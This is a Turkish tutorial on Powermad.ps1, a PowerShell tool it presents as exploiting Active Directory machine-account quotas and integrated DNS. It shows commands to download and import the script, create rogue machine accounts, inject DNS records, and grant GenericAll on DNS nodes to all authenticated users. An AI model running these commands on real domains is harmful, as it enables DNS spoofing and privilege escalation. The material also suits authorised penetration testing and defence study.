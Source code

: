 # Powermad.ps1 Kullanım Kılavuzu

## Giriş
Powermad.ps1, Active Directory ortamında MachineAccountQuota ve DNS zafiyetlerini istismar etmek için kullanılan bir PowerShell aracıdır. Bu araç, özellikle düşük yetkili kullanıcıların etki alanına yeni makine hesapları eklemesi veya DNS kayıtlarıyla manipülasyon yapmasına olanak tanır.

Bu kılavuz, Powermad.ps1 aracını kullanarak temel işlemleri gerçekleştirme yöntemlerini adım adım açıklar.

---

## Gereksinimler
- Windows sistem
- PowerShell
- Active Directory ortamına erişim
- Betik çalıştırma kısıtlamalarını bypass etme yetkisi

---

## Özellikler
Powermad.ps1 aşağıdaki işlemleri gerçekleştirebilir:
- **MachineAccountQuota İşlemleri:** Yeni makine hesapları oluşturma, mevcut hesapları yönetme veya silme
- **DNS İşlemleri:** Active Directory Entegre DNS (ADIDNS) yapılandırmalarını manipüle etme
- **Dinamik Güncellemeler:** DNS kayıtlarını ekleme veya silme
- **ACL Yönetimi:** DNS düğümleri üzerinde erişim kontrol listelerini (ACL) değiştirme

---

## Kullanım

### 1. **Powermad.ps1 Betiğini Çalıştırma**
#### Betiğin İndirilmesi
Powermad.ps1'i indirerek kullanabilirsiniz:
```powershell
Invoke-WebRequest -Uri https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1 -OutFile Powermad.ps1
```

#### Betiğin Yüklenmesi
PowerShell oturumunuza betiği yüklemek için:
```powershell
Import-Module .\Powermad.ps1
```

### 2. **MachineAccountQuota İşlemleri**
#### Yeni Makine Hesabı Oluşturma
Etki alanına yeni bir makine hesabı eklemek için:
```powershell
New-MachineAccount -MachineAccount test -Password P@ssw0rd123
```
- **MachineAccount**: Yeni makine hesabının adı.
- **Password**: Hesap için belirlenen parola.

#### Mevcut Hesapları Yönetme
Bir makine hesabını devre dışı bırakmak için:
```powershell
Disable-MachineAccount -MachineAccount test
```
Bir makine hesabını yeniden etkinleştirmek için:
```powershell
Enable-MachineAccount -MachineAccount test
```

#### Makine Hesabı Silme
Bir makine hesabını silmek için:
```powershell
Remove-MachineAccount -MachineAccount test -Credential $domainadmin
```
- **Credential**: Yüksek ayrıcalıklı bir kullanıcı kimlik bilgisi.

### 3. **DNS İşlemleri**
#### Yeni DNS Kaydı Eklemek
Bir DNS kaydı eklemek için:
```powershell
Invoke-DNSUpdate -DNSType A -DNSName www -DNSData 192.168.1.100
```
- **DNSType**: Kaydın türü (ör. A, CNAME, SRV).
- **DNSName**: Kaydın adı.
- **DNSData**: Kaydın verisi (ör. IP adresi).

#### DNS Kaydı Silme
Bir DNS kaydını silmek için:
```powershell
Invoke-DNSUpdate -DNSType A -DNSName www.test.local -Action Delete
```

### 4. **ACL Yönetimi**
#### DNS Düğümü Erişim İzinlerini Görüntüleme
Bir DNS düğümünün erişim kontrol listesini (DACL) görmek için:
```powershell
Get-ADIDNSPermission -Node www
```

#### Erişim İzni Verme
Bir DNS düğümüne erişim izni eklemek için:
```powershell
Grant-ADIDNSPermission -Node www -Principal "Authenticated Users" -Access GenericAll
```

#### Erişim İzni Kaldırma
Bir DNS düğümünden erişim iznini kaldırmak için:
```powershell
Revoke-ADIDNSPermission -Node www -Principal "Authenticated Users" -Access GenericAll
```

---

## Örnek Senaryo
Bir Active Directory ortamında DNS manipülasyonu yapmayı denediğinizi varsayalım:

1. **Yeni DNS Kaydı Eklemek:**
   ```powershell
   Invoke-DNSUpdate -DNSType A -DNSName api -DNSData 10.0.0.5
   ```

2. **Erişim İzinlerini Güncellemek:**
   ```powershell
   Grant-ADIDNSPermission -Node api -Principal "Authenticated Users" -Access GenericAll
   ```

3. **Makine Hesabı Oluşturmak:**
   ```powershell
   New-MachineAccount -MachineAccount TestMachine -Password SecureP@ssw0rd
   ```

---

## Güvenlik Notları
Powermad.ps1 yalnızca yasal ve etik amaçlarla kullanılmalıdır. Araç, yalnızca sistem yöneticilerinin güvenlik açıklarını tespit etmesine ve gidermesine yardımcı olmak için tasarlanmıştır. Yetkisiz kullanım yasal sonuçlara yol açabilir.

---

## Kaynaklar
- [Powermad.ps1 GitHub](https://github.com/Kevin-Robertson/Powermad)
- [Resmi Belgeler ve Wiki](https://github.com/Kevin-Robertson/Powermad/wiki)

---

Bu rehber, Powermad.ps1 betiğini kullanarak Active Directory ortamında makine hesapları ve DNS manipülasyonları yapmanın temellerini kapsamaktadır. Daha fazla bilgi veya yardım için GitHub sayfasını ziyaret edin.
